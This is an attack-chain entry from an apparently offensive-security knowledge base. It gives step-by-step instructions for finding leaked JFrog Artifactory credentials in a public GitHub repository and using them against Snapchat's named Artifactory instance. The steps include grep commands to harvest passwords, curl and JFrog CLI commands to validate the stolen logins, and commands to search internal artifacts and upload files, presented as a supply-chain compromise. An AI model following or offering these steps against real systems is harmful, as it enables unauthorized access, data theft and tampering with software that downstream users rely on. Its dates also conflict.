

---
tags:
  - credential-leak
  - github
  - artifactory
  - supply-chain
  - information-disclosure
type: attack_chain
tools:
  - '[[tools/Git]]'
  - '[[tools/Grep]]'
  - '[[tools/Curl]]'
  - '[[tools/JFrog-CLI]]'
tactics:
  - '[[Initial Access]]'
  - '[[Persistence]]'
  - '[[Discovery]]'
commands: []
platforms:
  - Web
  - JFrog Artifactory
complexity: low
procedures:
  - '[[procedures/Discover-Leaked-Credentials-in-Public-GitHub-Repository]]'
  - '[[procedures/Extract-and-Validate-Leaked-Artifactory-Credentials]]'
  - '[[procedures/Access-and-Manipulate-JFrog-Artifactory-Instance]]'
step_count: 3
techniques:
  - '[[Unsecured Credentials]]'
  - '[[Valid Accounts]]'
  - '[[Supply Chain Compromise]]'
description: >-
  Multi-stage attack chain exploiting leaked credentials from a public GitHub
  repository to gain unauthorized access to Snapchat's JFrog Artifactory
  instance, enabling information disclosure and potential supply chain attacks.
skill_level: beginner
impact_level: high
id: 9898b313-ee36-4938-9b09-91997de4c679
created_at: '2025-12-11T03:47:56.561Z'
updated_at: '2025-12-11T03:47:56.561Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0003]]'
  - '[[TA0007]]'
mitre_techniques:
  - '[[T1552]]'
  - '[[T1078]]'
  - '[[T1195]]'
---
# Leaked JFrog Artifactory Credentials in Public GitHub Repository Leading to Unauthorized Access and Supply Chain Compromise

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Git]]
- [[tools/Grep]]
- [[tools/Curl]]
- [[tools/JFrog-CLI]]

### Target Environment

- Web-based JFrog Artifactory instance (e.g., https://snapchat.jfrog.io)
- Public GitHub repository access
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Internet access to GitHub and the target Artifactory URL
- No prior credentials needed for discovery phase

## Detailed Attack Procedures

### Step 1: Discover Leaked Credentials - [[procedures/Discover-Leaked-Credentials-in-Public-GitHub-Repository]]

**Procedure**: [[procedures/Discover-Leaked-Credentials-in-Public-GitHub-Repository]]

**Objective**: Identify public GitHub repositories containing accidentally committed sensitive credentials, such as JFrog Artifactory username and password.

**Expected Output**: A cloned repository with files containing leaked credentials.

**Success Indicators**:
- Repository successfully cloned
- Credentials found in repository files

**Instructions**:

Clone the target public GitHub repository using [[commands/git-clone-repo]]:

```bash
git clone https://github.com/snap-employee/repo.git
```

Search for credentials in the cloned files using [[commands/grep-search-credentials]]:

```bash
grep -rE 'username|password' repo/
```

Validate that the discovered strings appear to be valid JFrog Artifactory credentials.

### Step 2: Extract and Validate Credentials - [[procedures/Extract-and-Validate-Leaked-Artifactory-Credentials]]

**Procedure**: [[procedures/Extract-and-Validate-Leaked-Artifactory-Credentials]]

**Objective**: Retrieve the leaked username and password from the repository and test their validity against the target JFrog Artifactory instance.

**Expected Output**: Successful authentication response from the Artifactory server.

**Success Indicators**:
- HTTP 200 OK or successful login response
- Access to Artifactory dashboard or API

**Instructions**:

Extract the username and password from the identified files.

Test the credentials using [[commands/curl-test-credentials]] for basic authentication:

```bash
curl -u 'username:password' https://snapchat.jfrog.io/artifactory/api/system/ping
```

If using JFrog CLI, configure and test login with [[commands/jfrog-cli-login]]:

```bash
jfrog rt config --url=https://snapchat.jfrog.io/artifactory --user=username --password=password
jfrog rt ping
```

Confirm validation by checking for a successful ping or access response.

### Step 3: Access and Manipulate Artifactory - [[procedures/Access-and-Manipulate-JFrog-Artifactory-Instance]]

**Procedure**: [[procedures/Access-and-Manipulate-JFrog-Artifactory-Instance]]

**Objective**: Use the validated credentials to access internal artifacts, libraries, and demonstrate the ability to push updates, potentially enabling supply chain compromise.

**Expected Output**: List of accessible artifacts and successful push of a test update.

**Success Indicators**:
- Ability to browse and download internal artifacts
- Successful upload or update of an artifact

**Instructions**:

Log in to the Artifactory instance and list artifacts using [[commands/jfrog-cli-login]] if not already done, then:

```bash
jfrog rt search --recursive
```

Demonstrate push capabilities by uploading a test file using [[commands/jfrog-cli-push-artifact]]:

```bash
jfrog rt upload test-file.txt repo-name/
```

Access internal Snap libraries and confirm potential for updates or exfiltration.

## Attack Chain Summary

### Key Achievements

1. Discovery of leaked credentials in public repositories
2. Validation and unauthorized access to JFrog Artifactory
3. Demonstration of supply chain compromise potential through artifact manipulation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unsecured Credentials]]
- [[Valid Accounts]]
- [[Supply Chain Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Persistence]]
- [[Discovery]]

*Last updated: 2023-10-01*
